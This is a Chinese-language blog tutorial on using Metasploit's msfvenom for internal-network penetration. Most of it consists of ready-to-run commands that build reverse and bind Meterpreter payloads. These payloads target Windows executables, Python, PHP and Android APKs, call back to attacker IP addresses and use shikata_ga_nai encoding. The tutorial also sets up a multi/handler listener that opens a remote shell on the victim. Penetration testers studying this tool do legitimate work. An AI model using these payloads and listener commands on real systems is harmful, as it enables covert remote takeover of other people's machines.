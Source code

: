 ```yaml
---
layout: post
title:  "内网渗透之msfvenom"
categories: 内网渗透
tags: 工具 msfvenom
author: 0e0w
---
```


* content
{:toc}
这是一篇关于msfvenom文章。由于作者能力有限，文中难免会出现一些错误，请谅解。本文创建时间为2020年6月4日，最近一次更新时间为2020年8月21日。本文会不定期更新。
> 关于什么是msfvenom？更多详细内容见 [msfvenom官网](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)、[如何使用](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom)。

## 0x01 msfvenom概述

### 一、安装方式

msfvenom是msfpayload和msfencode的组合，安装msf之后便可使用。

一键安装msf

```
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \chmod 755 msfinstall && \./msfinstall
```

更新msf

```
sudo msfupdate
```

### 二、基础介绍

msfvenom一般需要配合msf进行利用。使用msfvenom生成shellcode，使用msf进行监听，在靶机上运行shellcode。msfvenom几乎支持生成各种平台的shellcode。是后渗透测试过程中强大的武器之一。

## 0x02 msfvenom命令

- msfvenom -h #查看帮助
- msfvenom -l payloads #查看支持生成的payload
- msfvenom -l archs #查看支持的系统架构
- msfvenom -l platforms #查看支持的平台
- msfvenom -l encrypt #查看所有的加密方式
- msfvenom -l encoders #查看所有的编码器

例：

> msfvenom -a 系统架构 --platform 系统平台 -p 有效载荷 lhost=攻击机IP lport=攻击机端口 -e 编码方式  -i编码次数 -f 输出格式 -o 输出文件

> msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp lhost=111.231.228.112 lport=6059 -i 3 -e x86/shikata_ga_nai -f exe -o x86reverse_tcp.exe
>

## 0x03 msfvenom利用

**MSF监听器**

- use exploit/multi/handler
- set payload windows/meterpreter/reverse_tcp
- set lhost 111.111.111.112
- set lport 6095
- exploit -j

- use exploit/multi/handler
- set payload windows/meterpreter/reverse_tcp #设置成payload的模式
- set rhost 111.111.111.112
- set lport 6095
- exploit -j

- sessions -i 2

- shell

### 一、exe

靶机无公网ip

- msfvenom -p windows/meterpreter/reverse_tcp lhost=111.111.111.112 lport=6095 -f exe -o x86reverse_tcp.exe
- msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=111.111.111.112 lport=6095 -f exe -o x64reverse_tcp.exe

靶机有公网ip

- msfvenom -p windows/x64/meterpreter/bind_tcp lport=6095 -f exe -o bind_tcp.exe

### 二、Linux

### 三、Python

靶机无公网ip

- msfvenom -p windows/meterpreter/reverse_tcp lhost=111.111.111.112 lport=6095 -f py -o x86reverse_tcp.py

靶机有公网ip

- msfvenom ­-p windows/x64/meterpreter/bind_tcp lport=6095 ­-f py -o exp.py

### 四、PHP

- msfvenom -p php/meterpreter/reverse_tcp LHOST=111.111.111.112 LPORT=6095 -f raw -o session.php

### 五、Android

- msfvenom -p android/meterpreter/reverse_tcp LHOST=111.111.111.112 LPORT=80 -o msf.apk 

参考：https://blog.csdn.net/caiqiiqi/article/details/84102629

### 五、apple_ios

## 0x99 参考链接

- http://www.0e0w.com/


